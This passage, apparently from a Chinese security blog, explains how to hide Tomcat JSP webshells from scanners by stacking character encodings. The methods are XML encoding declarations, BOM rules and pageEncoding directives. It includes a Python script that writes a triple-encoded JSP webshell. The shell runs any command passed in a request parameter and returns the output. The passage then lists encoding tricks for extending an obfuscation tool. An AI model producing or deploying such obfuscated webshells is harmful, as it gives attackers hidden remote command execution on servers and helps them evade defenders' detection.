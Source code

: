 
‍

 **2.3 tomcat webshell的双编码避坑**

根据xml格式的encoding属性可以决定内容的编码，根据bom头也可以决定内容的编码，所以实现双编码的tomcat
webshell是可行的。文中写到：tomcat8.0.50中对应着UTF-8\UTF-16BE\UTF-16LE\ISO-10646-UCS-4\CP037作为前置编码，当然后置就无所谓，基本上java中的都行

双编码存在坑点，坑点文章中已写出：以前置cp037+后置utf-16为例，以下代码输出长度为41

  *   * 

    
    
    a0 = '''<?xml version="1.0" encoding='utf-16be'?>'''print(len(a0.encode("cp037")))

‍

由于前面进行了cp037编码为单数，对于utf-16是相当于两个字节去解码，所以最终无法识别<xxx:root代码片段，那就程序就会认为这不是一个xml格式的写法。

 **2.4 tomcat webshell的三重编码的方式**

  1. 保证无法通过BOM识别出文本内容编码(保证isBomPresent为false)

  2. 通过<?xml encoding='xxx'可以控制sourceEnc的值

  3. 将标签<jsp:directive.或<%@放置在全文任意位置但不影响代码解析

  4. 通过标签<jsp:directive.或<%@的pageEncoding属性再次更改文本内容编码

例子：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    a0 = '''<?xml version="1.0" encoding='cp037'?>'''a1 = '''<%    Process p = Runtime.getRuntime().exec(request.getParameter("y4tacker"));    java.io.BufferedReader input = new java.io.BufferedReader(new java.io.InputStreamReader(p.getInputStream()));    String line = "'''a2 = '''<%@ page pageEncoding="UTF-16BE"%>'''a3 = '''";    while ((line = input.readLine()) != null) {        out.write(line+"\\n");    }%>'''with open("test3.jsp","wb") as f:    f.write(a0.encode("utf-8"))    f.write(a1.encode("utf-16be"))    f.write(a2.encode("cp037"))    f.write(a3.encode("utf-16be"))  
    

 **3.用于二开的tomcat编码混淆技术摘要总结**

  1. Jdk8+Tomcat8.5下支持900+种编码，可用于混淆webshell的有十余种

  2. 可以用编码的别名，达到的编码效果是等效的

  3. tomcat8下，如果有bom头会根据bom头来决定内容的编码（即：需要在文件内容前面插入对应编码的bom头，以便程序能识别到bom头，找到对应编码），没有bom头会根据文本内容中的pageEncoding进行最终编码

  4. 可以进行双编码：XML声明头来指定shell内容的编码，对XML声明头也进行编码。（本次二开没探索更多的三重编码）

5jspencounter项目中在本次用到的部分代码实现

具体代码逻辑见注释处  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
